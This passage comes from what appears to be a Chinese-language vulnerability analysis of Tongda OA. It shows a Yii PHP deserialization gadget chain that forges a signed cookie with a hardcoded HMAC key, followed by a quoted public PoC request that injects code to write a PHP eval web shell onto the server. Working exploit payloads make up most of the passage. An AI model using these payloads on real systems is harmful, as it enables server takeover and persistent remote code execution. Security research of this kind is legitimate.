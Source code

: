 ```php
}

namespace yii\caching {
    class ArrayCache {
        public $serializer;
        private $_cache;

        function __construct($function, $parameter) {
            $this->serializer = [1 => $function];
            $this->_cache = ['x' => [$parameter, 0]];
        }
    }
}
namespace{
    $function = 'var_dump';
    $parameter = 123;

    $cache = new \yii\caching\ArrayCache($function, $parameter);
    $csb = new \yii\db\ColumnSchemaBuilder($cache);
    $conn = new \yii\db\Connection($csb);
    $query = new \yii\db\BatchQueryResult($conn);
    $data=(serialize($query));
    $data=hash_hmac('sha256', $data, 'tdide2').$data; //通达OA的cookie反序列化校验
    echo urlencode($data);
}
```

### 2. 前台代码注入漏洞

#### 前言

在一次众测中，遇到了一个通达OA11，虽然到最后也没有成功拿下权限，但是网上查找到的一个通达OA的前台RCE的poc，让我产生了兴趣，并进行了深入的分析。poc的来源是https://cloud.tencent.com/developer/article/2200049 。

#### 对poc的简要分析与猜测

网上给出的POC如下：

```php
GET /general/appbuilder/web/portal/gateway/getdata?activeTab=%e5',1%3d>fwrite(fopen("D:\MYOA\webroot\general\test1.php","w"),"<?php @eval(next(getallheaders()));"))%3b/*&id=19&module=Carouselimage HTTP/1.1
Host: 192.168.121.147:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=7n7nl11mo8hrkp03hvtj8sjti0; KEY_RANDOMDATA=5711
Upgrade-Insecure-Requests: 1
```
